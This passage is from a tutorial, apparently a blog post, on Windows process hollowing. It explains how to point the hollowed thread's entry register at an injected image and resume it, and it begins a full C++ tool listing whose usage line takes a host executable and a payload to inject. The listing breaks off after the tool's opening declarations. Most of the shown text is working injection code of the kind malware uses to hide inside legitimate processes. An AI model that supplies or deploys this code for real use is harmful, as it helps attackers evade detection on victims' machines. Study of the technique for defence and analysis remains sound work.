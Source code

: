 Anddd the relocation is done. ( For it's still the hard part ).

### Updating Context and Resuming the Process

In this last part we should modify the context structure (pContext) to set the Instruction Pointer (IP) register to the entry point of the executable. This ensures that when the process is resumed, it starts executing from the correct location within the newly loaded image.

Doing this for both architectures.
- **For 32-bit (x86)**
pContext->Eax is set to the base address of the loaded image plus the entry point offset. This effectively points the `EAX` register to the starting address of the executable's code.
- **For 64-bit (x64)**
pContext->Rcx is similarly set to the base address plus the entry point offset, but in this case, it updates the `RCX` register.

```cpp
    #ifdef _X86_
    pContext->Eax = (DWORD)BaseAddress + nt_head->OptionalHeader.AddressOfEntryPoint;
    #endif
    #ifdef _WIN64
    pContext->Rcx = (DWORD64)BaseAddress + nt_head->OptionalHeader.AddressOfEntryPoint;
    #endif

    printf("Resuming Process\n");
    if (!SetThreadContext(proc_info.hThread, pContext)) {
        printf("Error Setting Thread Context\n");
    }

    if (!ResumeThread(proc_info.hThread)) {
        printf("Error Resuming Thread\n");
    }
}
```
And finally we can resume the main thread by using ResumeThread(proc_info.hThread).
### The Full code version 
```cpp
#include <stdio.h>
#include <windows.h>
#include <string.h>
#include <winternl.h>

typedef NTSTATUS(WINAPI* _NtUnmapViewOfSection)(HANDLE ProcessHandle, PVOID BaseAddress);

typedef struct BASE_RELOCATION_BLOCK {
	DWORD PageAddress;
	DWORD BlockSize;
} BASE_RELOCATION_BLOCK, * PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;


int main(int argc, char *argv[]) {

	if (argc != 3){
		printf("Usage: Process Hollowing.exe [Host.exe] [Inject]\n");
		return 0;
	}

	// Creating Susspended Proccess And Mapping a File To Memory
	LPSTARTUPINFOA pStartupinfo = new STARTUPINFOA();
	PROCESS_INFORMATION proc_info;
```